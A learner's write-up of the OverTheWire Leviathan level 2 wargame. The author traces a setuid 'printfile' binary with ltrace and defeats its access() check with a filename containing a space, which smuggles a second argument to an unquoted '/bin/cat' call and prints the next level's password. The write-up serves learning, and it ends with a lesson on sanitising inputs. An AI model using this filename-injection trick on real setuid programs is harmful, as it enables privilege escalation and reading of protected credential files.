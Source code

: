 For this level, I use `ls -la` and find `printfile` executable with owner as leviathan3. The executable also gives permissions to leviathan2 for executing like so:
```
leviathan2@gibson:~$ ls -la
total 36
drwxr-xr-x  2 root       root        4096 Oct  5 06:19 .
drwxr-xr-x 83 root       root        4096 Oct  5 06:20 ..
-rw-r--r--  1 root       root         220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root       root        3771 Jan  6  2022 .bashrc
-r-sr-x---  1 leviathan3 leviathan2 15060 Oct  5 06:19 printfile
-rw-r--r--  1 root       root         807 Jan  6  2022 .profile
```

From executing the printfile, I reckon the command works similar to `cat` like so:

```
leviathan2@gibson:~$ ./printfile /etc/host.conf
# The "order" line is only used by old versions of the C library.
order hosts,bind
multi on
```

As usual, I use objdump to look at its stack contents:
```
leviathan2@gibson:~$ objdump -T printfile

printfile:     file format elf32-i386

DYNAMIC SYMBOL TABLE:
00000000      DF *UND*  00000000 (GLIBC_2.34) __libc_start_main
00000000      DF *UND*  00000000 (GLIBC_2.0)  printf
00000000      DF *UND*  00000000 (GLIBC_2.4)  __stack_chk_fail
00000000      DF *UND*  00000000 (GLIBC_2.0)  geteuid
00000000      DF *UND*  00000000 (GLIBC_2.0)  puts
00000000      DF *UND*  00000000 (GLIBC_2.0)  system
00000000  w   D  *UND*  00000000  Base        __gmon_start__
00000000      DF *UND*  00000000 (GLIBC_2.0)  setreuid
00000000      DF *UND*  00000000 (GLIBC_2.0)  snprintf
00000000      DF *UND*  00000000 (GLIBC_2.0)  access
0804a004 g    DO .rodata        00000004  Base        _IO_stdin_used
```

Though this didn't reveal much, I tried reading the password for leviathan3 directly, which unsurprisingly failed:

```
leviathan2@gibson:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

Using ltrace, I observed the following function calls:

```
leviathan2@gibson:~$ ltrace ./printfile /etc/host.conf
__libc_start_main(0x80491e6, 2, 0xffffd684, 0 <unfinished ...>
access("/etc/host.conf", 4)                                                                                                         = 0
snprintf("/bin/cat /etc/host.conf", 511, "/bin/cat %s", "/etc/host.conf")                                                           = 23
geteuid()                                                                                                                           = 12002
geteuid()                                                                                                                           = 12002
setreuid(12002, 12002)                                                                                                              = 0
system("/bin/cat /etc/host.conf"# The "order" line is only used by old versions of the C library.
order hosts,bind
multi on
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                              = 0
+++ exited (status 0) +++
```

From this, the sequence seems to be:

    - Check if the file is accessible (access).
    - Store the command in a buffer (snprintf).
    - Change the user ID (geteuid and setreuid).
    - Execute the command (system).

From this, we need to somehow bypass the access check so that we can execute the command with elevated permissions (likely leviathan3).

So, we need to make a temporary file to call the `./printfile` 
executable. 
So, I made my temp folder with `mktemp -d` and stored a test file called `file.txt`.

However, what is strange to me is that `printfile` cannot execute my `file.txt` that is under the tmp file even with the same permissions. I even gave permissions like `chmod 777` to the test file which does not work.

After googling, the correct way to do it is to create a payload like so: `touch '<tmpDir>/a leviathan3'` and switch directory to where the password is stored and call the printfile command there and you'll get the output like so:

```
leviathan2@gibson:/etc/leviathan_pass$ ~/printfile '/tmp/tmp.0wDX4pzYkj/a leviathan3'
/bin/cat: /tmp/tmp.0wDX4pzYkj/a: Permission denied
Q0G8j4sakn
```

So, what I have learnt: you can use a filename as a payload with the file you want to bypass certain functions. Using filenames as payloads can be a powerful method to exploit poorly written programs. So, we need to sanitize and validate inputs, even if they're filenames.
This can be seen in the `ltrace`: 

```
leviathan2@gibson:/etc/leviathan_pass$ ltrace ~/printfile '/tmp/tmp.0wDX4pzYkj/a leviathan3'
__libc_start_main(0x80491e6, 2, 0xffffd644, 0 <unfinished ...>
access("/tmp/tmp.0wDX4pzYkj/a leviathan3"..., 4)                                                                                    = 0         acess is bypassed with the filename wow
snprintf("/bin/cat /tmp/tmp.0wDX4pzYkj/a l"..., 511, "/bin/cat %s", "/tmp/tmp.0wDX4pzYkj/a leviathan3"...)                          = 41        
geteuid()                                                                                                                           = 12002
geteuid()                                                                                                                           = 12002
setreuid(12002, 12002)                                                                                                              = 0
system("/bin/cat /tmp/tmp.0wDX4pzYkj/a l".../bin/cat: /tmp/tmp.0wDX4pzYkj/a: No such file or directory                                      the cat tmpfile is not allowed as the owner is leviathan2
/bin/cat: leviathan3: Permission denied
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                              = 256
+++ exited (status 0) +++
```
